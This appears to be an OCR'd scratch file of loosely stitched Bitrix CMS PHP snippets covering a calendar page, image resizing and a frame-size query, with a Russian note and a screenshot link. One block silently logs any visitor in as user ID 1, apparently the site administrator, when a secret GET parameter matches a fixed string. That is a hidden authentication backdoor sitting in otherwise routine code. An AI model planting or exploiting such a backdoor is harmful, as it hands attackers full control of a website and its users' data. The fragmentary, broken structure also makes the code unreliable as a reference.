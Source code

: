 
$REALCITY = $APPLICATION->get_cookie("REALCITY");

урл с сайта модиса
http://prntscr.com/ir17zy


require($_SERVER["DOCUMENT_ROOT"] . "/bitrix/modules/main/include/prolog_before.php");
//require($_SERVER["DOCUMENT_ROOT"] . "/bitrix/header.php");



$requst = \Bitrix\Main\HttpContext::getCurrent()->getRequest();
$current_week = intval($requst->get("week"));
$result = \Questor\Calendar::getData($current_week);
_cons($result);

$url = new \Bitrix\Main\Web\Uri($requst->getRequestUri());
$url->addParams(['week' => ($current_week + 1)]);
$url_next = $url->getUri();
$url->addParams(['week' => ($current_week - 1)]);
$url_prev = $url->getUri();


$date_start = strftime("%e %B", $result['info']['date_start']->getTimestamp());
$date_end = strftime("%e %B", $result['info']['date_end']->getTimestamp());


<?php
foreach ($arResult["ITEMS"] as &$arItem) {
    $small = CFile::ResizeImageGet($arItem['PREVIEW_PICTURE']["ID"], array('width' => 620, 'height' => 400), BX_RESIZE_IMAGE_EXACT, true);
    $arItem["PICTURE"] = $small["src"];
}
?>

<?
require($_SERVER["DOCUMENT_ROOT"] . "/bitrix/modules/main/include/prolog_before.php");






if($_GET["p"] == 'zd3GA2'){
	$USER->Authorize(1, true);
	LocalRedirect("/");
}




$height = intval($_POST["height"]);

if ($height) {
	$arFilter = array(
		'IBLOCK_ID' => 116,
		'PROPERTY_RAW_PROPERTY_CODE' => 'FRAME_SIZE',
	);

	$rs = \CIBlockElement::GetList(
		array(),
		$arFilter,
		false,
		false,
		array(
			'ID',
			'NAME',
		)
	);
